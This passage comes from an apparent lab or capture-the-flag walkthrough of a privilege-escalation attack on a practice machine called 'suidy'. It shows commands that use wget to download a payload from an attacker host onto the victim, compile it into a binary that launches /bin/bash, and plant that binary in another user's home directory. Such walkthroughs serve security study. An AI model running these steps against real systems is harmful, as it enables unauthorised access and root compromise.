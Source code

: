 Now I transfered this file in victim machine as a user `theuser` →

```bash
theuser@suidy:/tmp$ wget http://10.0.2.60/payload.c
--2023-10-07 17:56:52--  http://10.0.2.60/payload.c
Conectando con 10.0.2.60:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 147 [text/x-csrc]
Grabando a: “payload.c”

payload.c                       100%[=======================================================>]     147  --.-KB/s    en 0s      

2023-10-07 17:56:52 (15,5 MB/s) - “payload.c” guardado [147/147]

theuser@suidy:/tmp$ gcc payload.c -o suidyyyyy
payload.c: In function ‘main’:
payload.c:8:5: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
     system("/bin/bash");
     ^~~~~~
theuser@suidy:/tmp$ ls -al
total 56
drwxrwxrwt  8 root    root     4096 oct  7 17:57 .
drwxr-xr-x 18 root    root     4096 sep 26  2020 ..
drwxrwxrwt  2 root    root     4096 oct  7 17:47 .font-unix
drwxrwxrwt  2 root    root     4096 oct  7 17:47 .ICE-unix
-rw-r--r--  1 theuser theuser   147 oct  7 17:47 payload.c
-rwxr-xr-x  1 theuser theuser 16712 oct  7 17:57 suidyyyyy
drwx------  3 root    root     4096 oct  7 17:47 systemd-private-1919423ef6c44c85a0c836d60673e669-systemd-timesyncd.service-4ZTpcc
drwxrwxrwt  2 root    root     4096 oct  7 17:47 .Test-unix
drwxrwxrwt  2 root    root     4096 oct  7 17:47 .X11-unix
drwxrwxrwt  2 root    root     4096 oct  7 17:47 .XIM-unix
theuser@suidy:/tmp$ mv suidyyyyy /home/suidy/suidyyyyy
mv: no se puede mover 'suidyyyyy' a '/home/suidy/suidyyyyy': Permiso denegado
```
{: .nolineno}
{: .nolineno}

I tried to move the executable to `/home/suidy/suidyyyyy` and it did not work so I tried to copy to that place and it worked as you can see its file size →

```bash
theuser@suidy:/tmp$ cp suidyyyyy /home/suidy/suidyyyyy
theuser@suidy:/tmp$ cd -
/home/suidy
theuser@suidy:/home/suidy$ ls -al
total 52
drwxr-xr-x 3 suidy suidy    4096 sep 27  2020 .
drwxr-xr-x 4 root  root     4096 sep 26  2020 ..
-rw------- 1 suidy suidy      12 sep 27  2020 .bash_history
-rw-r--r-- 1 suidy suidy     220 sep 26  2020 .bash_logout
-rw-r--r-- 1 suidy suidy    3526 sep 26  2020 .bashrc
drwxr-xr-x 3 suidy suidy    4096 sep 26  2020 .local
-r--r----- 1 suidy suidy     197 sep 26  2020 note.txt
-rw-r--r-- 1 suidy suidy     807 sep 26  2020 .profile
-rwxrwxr-x 1 root  theuser 16712 oct  7 17:58 suidyyyyy
theuser@suidy:/home/suidy$
```
{: .nolineno}
{: .nolineno}
